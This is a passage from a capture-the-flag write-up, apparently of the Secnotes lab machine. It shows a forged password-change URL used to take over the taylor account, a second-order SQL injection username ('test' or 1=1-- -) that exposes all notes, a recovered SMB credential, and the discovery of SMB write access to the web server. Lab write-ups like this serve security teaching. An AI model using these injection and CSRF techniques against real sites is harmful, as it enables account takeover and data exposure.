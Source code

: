 [http://10.10.10.97/change_pass.php?password=enox123&confirm_password=enox123&submit=submit](http://10.10.10.97/change_pass.php?password=enox123&confirm_password=enox123&submit=submit)

→ We sent the url in the message body and logged in as taylor.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%208.png)

### ⇒ Method 2 : Second Order SQLi

→ We register with username :

**`test' or 1=1-- -`**

→ When we login we are able to read all the notes. This is happening because of the following query :

**`SELECT * FROM notes WHERE user = 'test' OR 1=1`**

⇒ We found SMB Credentials in the notes :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%209.png)

`tyler : 92g!mA8BGjOirkL%OG*&`

⇒ We enumerated SMB and found out that we have read and write access to files on the website running on port **`8808`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2010.png)
